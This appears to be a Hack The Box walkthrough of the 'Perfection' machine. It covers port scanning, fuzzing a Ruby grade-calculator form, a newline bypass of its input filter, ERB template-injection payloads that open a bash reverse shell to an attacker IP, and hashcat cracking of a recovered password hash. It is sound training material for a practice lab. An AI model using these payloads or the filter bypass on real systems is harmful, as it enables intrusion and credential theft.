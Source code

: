 ```yaml
---
title:  HTB - Perfection
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Perfection]
tags: [HackTheBox, SSTI, sudo, nmap, hashcat ]
image:
  path: /assets/img/post/perfection/perfection.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Perfection.
---
```


## Box Info

| Name                  | Perfection       | 
| :-------------------- | ---------------: |
| Release Date          | 02 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.11.253 -oG allPorts
nmap -sCV -p 22,80 10.10.11.253 -oN targeted
```

![Image](/assets/img/post/perfection/0.png)

#### Resolution DNS

```bash
echo "10.10.11.253 perfection.htb" | sudo tee -a /etc/hosts
```

#### Technology

```text
whatweb http://perfection.htb
```

![Image](/assets/img/post/perfection/1.png)

## Web

![Image](/assets/img/post/perfection/2.png)

The web is powered by WEBrick version 1.7.0, `WEBrick is a Ruby library providing simple HTTP web servers`{: filepath}

![Image](/assets/img/post/perfection/3.png)

Well, if you intercept the request u can see something like this `category1=literature` but if u try to this `category1=$` get a redirect with a text "Malicious text blocked".

We can do  with ffuf an scan for get a list of blocked characters.

```bash
ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=FUZZ&grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

But what happens if a url encode the input?

```text
category1= poop%0aFUZZ &grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

`%0a`— represents a newline character, used to `bypass input validation`.

The first thing I think is that there may be an SSTI.
We go look to in payloadallthethings if there is something for ruby

[PaylaodsAllTheThings-Ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby---basic-injections)

![Image](/assets/img/post/perfection/pay.png)

`hURL` _to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities_

```shell
hURL -B "bash -i >& /dev/tcp/10.10.14.78/7777 0>&1" (base64)
```

```shell
hURL -U "{_stringbase64_}" (URLencoded)
```

![Image](/assets/img/post/perfection/5.png)

#### Payload
```text
category1=poop%0a<%25=system("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC83Nzc3IDA%2BJjE%3D|+base64+-d+|+bash");%25>1
```

![Image](/assets/img/post/perfection/6.png)

Or use the payload `<%= IO.popen('id').readlines() %>` and urlencoded.

![Image](/assets/img/post/perfection/IO.png)

[Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```bash
<%= IO.popen('bash -i >& /dev/tcp/10.10.14.78/7777 0>&1').readlines() %> 
```

![Image](/assets/img/post/perfection/7.png)

Enumerating found the file .db and got the credentials.

_A string is any sequence of 4 or more printable characters .db_

![Image](/assets/img/post/perfection/8.png)

## Privilege Escalation

![Image](/assets/img/post/perfection/9.png)

### Hashcat

```bash
hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d"
```

![Image](/assets/img/post/perfection/10.png)

![Image](/assets/img/post/perfection/11.png)

```text
susan_nasus_413759210
```

![Image](/assets/img/post/perfection/12.png)

Root